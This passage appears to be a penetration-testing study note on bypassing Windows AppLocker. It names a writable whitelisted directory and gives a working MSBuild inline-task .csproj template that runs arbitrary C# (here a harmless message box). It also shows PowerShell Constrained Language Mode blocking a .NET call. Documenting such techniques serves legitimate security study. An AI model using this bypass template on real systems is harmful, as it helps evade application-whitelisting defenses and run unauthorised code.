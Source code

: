 - C:\Windows\System32\spool\drivers\color

![[Pasted image 20250729093500.png]]

#### LOLBAS

Some [LOLBAS](https://lolbas-project.github.io/)' that are able to execute arbitrary code can also be used to bypass AppLocker, because they exist in whitelisted locations such as `%WINDIR%\*`.  [MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/) is one example that allows you to execute arbitrary C# code from a specially crafted `.csproj` file.

```c#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuild/>
  </Target>
   <UsingTask
    TaskName="MSBuild"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
      <Reference Include="System.Windows.Forms" />		
      <Code Type="Class" Language="cs">
        <![CDATA[
		using Microsoft.Build.Utilities;
		using System.Windows.Forms;

		public class MSBuild : Task
		{
			public override bool Execute()
			{
				MessageBox.Show("Hello World", "AppLocker Bypass");
				return true;
			}
		}
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

![[Pasted image 20250729093601.png]]

### PowerShell CLM

AppLocker will also change PowerShell's language mode from _FullLanguage_ to _ConstrainedLanguage_.  This is designed to restrict access to language features that can invoke arbitrary Windows APIs, including a bunch of .NET APIs.

```powershell
PS C:\Users\pchilds> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

PS C:\Users\pchilds> [System.Console]::WriteLine("Hello World")
Cannot invoke method. Method invocation is supported only on core types in this language mode.
```
